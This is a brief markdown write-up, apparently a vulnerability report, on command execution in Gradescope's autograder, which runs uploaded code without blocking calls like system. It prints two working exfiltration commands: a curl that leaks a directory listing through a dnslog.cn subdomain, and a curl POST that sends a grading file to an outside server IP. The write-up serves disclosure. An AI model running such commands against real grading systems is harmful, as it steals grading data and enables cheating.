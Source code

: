 # Grade-scope code execution 

​	

## How to exploit

User can upload own code and autograder of gradescopt can grade it like online judge. But the program doesn't filter out some dangerous functions, like system. So, users can execute any commends they want. 

First if I add this code to my code



```
curl `ls`.mgvjns.dnslog.cn
```

I  can get a filename from dns log

![image-20211112204319365](img/image-20211112204319365.png)

Next if I add another commend to my code

![image-20211112204539657](img/image-20211112204539657-16367211407362.png)

```
curl -X POST -F xx=@zeroMarkshowGrid.txt http://129.226.162.60:2333/
```

Then I can read from my VPS and know the content of this file.

![image-20211112204500710](img/image-20211112204500710-16367211023901.png)

